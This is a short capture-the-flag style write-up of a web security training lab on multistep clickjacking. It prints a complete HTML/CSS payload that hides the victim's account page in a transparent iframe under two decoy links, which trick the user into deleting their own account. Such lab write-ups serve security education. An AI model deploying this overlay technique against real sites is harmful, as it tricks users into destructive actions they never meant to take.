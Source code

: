 # Practitioner Lab 90: Multistep clickjacking

---

This lab has some account functionality that is protected by a CSRF token and also has a confirmation dialog to protect against Clickjacking. To solve this lab construct an attack that fools the user into clicking the delete account button and the confirmation dialog by clicking on "Click me first" and "Click me next" decoy actions. You will need to use two elements for this lab.

You can log in to the account yourself using the following credentials: `wiener:peter`

The first thing I did was log into the application. I saw the delete button. 

Now I know I want the user to delete themselves. 

```
<head>
	<style>
		#target_website {
			position:relative;
			width:1000px;
			height:1000px;
			opacity:0.000001;
			z-index:2;
			}
		#decoy_website{
			position:absolute;
			width:1000px;
			height:1000px;
                        top:520px;
                        left: 60px;
			z-index:1;
			}

                 #second_decoy_website {
			position:absolute;
			width:1000px;
			height:1000px;
                        top:300px;
                        left: 200px;
			z-index:1;
			}
            
	</style>
</head>
<body>
	<div id="decoy_website">
	  <a href=""> Click me first </a>
	</div>
<div id="second_decoy_website">
	  <a href=""> Click me next </a>
	</div>
	<iframe id="target_website" src="https://0ad30059045c283a80294ea7000900e4.web-security-academy.net/my-account">
	</iframe>
</body>
```

Using the following payload I added 2 divs which hovered over the pages.

When the user clicked on both the user account got deleted. 

![Untitled](Practitioner%20Lab%2090%20Multistep%20clickjacking%2025bd8445a4f04a05811d6f8a7bcaa367/Untitled.png)